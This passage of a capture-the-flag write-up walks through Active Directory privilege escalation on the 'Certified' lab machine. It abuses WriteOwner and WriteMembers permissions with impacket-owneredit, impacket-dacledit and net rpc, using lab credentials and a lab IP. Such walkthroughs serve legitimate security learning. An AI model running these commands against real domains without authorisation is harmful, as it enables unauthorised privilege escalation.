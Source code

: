 ![BH Pathfinding](Pasted image 20250326213353.png)
_BloodHound Pathfinding Visual_

## 1. judth.mader -> Management Group
### 1a. Change Management Group Object Ownership 
In order to add the `judith.mader` user to the `Management` group we first need to abuse the `WriteOwner` permission to change the ownership of the object to our controlled user. To accomplished this [impacket](https://github.com/fortra/impacket)'s `owneredit.py` script is utilized:
```bash
impacket-owneredit -action write -new-owner 'judith.mader' -target 'Management' 'CERTIFIED.HTB'/'judith.mader':'judith09'
```
- `-action write` : Specify that we want to overwrite the current owner of the object, which as seen by the screenshot of the Domain Admins group. 
- `-new-owner 'judith.mader'` : Specify our controlled domain account to become the new owner of the Management group object. 
- `-target 'Management'` : Target object to change ownership.
- `'CERTIFIED.HTB'/'judith.mader':'judith09'` : Identity of our controlled domain account to authenticate the operation. 

The ownership is successfully modified as illustrated by the script's output.

![Impacket Owneredit Execution](Pasted image 20250314135922.png)
_Impacket Owneredit Successful Execution_

### 1b. Add `WriteMembers` Permission Over Object
With ownership over the Management group the `WriteMembers` permission can be granted in order to add ourselves to the group. To accomplish this [impacket](https://github.com/fortra/impacket)'s `dacledit.py` script is utilized. 
```bash
impacket-dacledit -action 'write' -rights 'WriteMembers' -principal 'judith.mader' -target-dn 'CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB' 'CERTIFIED.HTB'/'judith.mader':'judith09'
```
- `-action write` : Specify that we want to add a new permission over the target Management group object.
- `-rights 'WriteMembers'` : DACL permission to be granted.
- `-principal 'judith.mader'` : The user who the WriteMembers permission is going to be granted to. 
- `-target-dn 'CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB'` : The distinguished name for the Management group. 
- `'CERTIFIED.HTB'/'judith.mader':'judith09'` : Identity of our controlled domain account to authenticate the operation. 

The script's output illustrates successful execution, granting us the ability to add members to the Management group.
![Impacket Dacledit Execution](Pasted image 20250314140316.png)
_Impacket Dacledit Execution_

### 1c. Add `judith.mader` to `Management` Group
Once Steps 1a  and 1b have successfully completed then the judith.mader domain user can be added to the Management group using the `net` CLI tool. 
```bash
# ADD TO GROUP
net rpc group addmem "MANAGEMENT" "judith.mader" -U "certified.htb"/"judith.mader"%"judith09" -S "10.129.231.186"

# VERIFY GROUP MEMBERSHIP
net rpc group members "MANAGEMENT" -U "certified.htb"/"judith.mader"%"judith09" -S "10.129.231.186"
```
- `-U "certified.htb"/"judith.mader"%"judith09"` : User to authenticate as and perform the net rpc operation. 
- `-S "10.129.231.186"` : Target server, in this case the DC. 
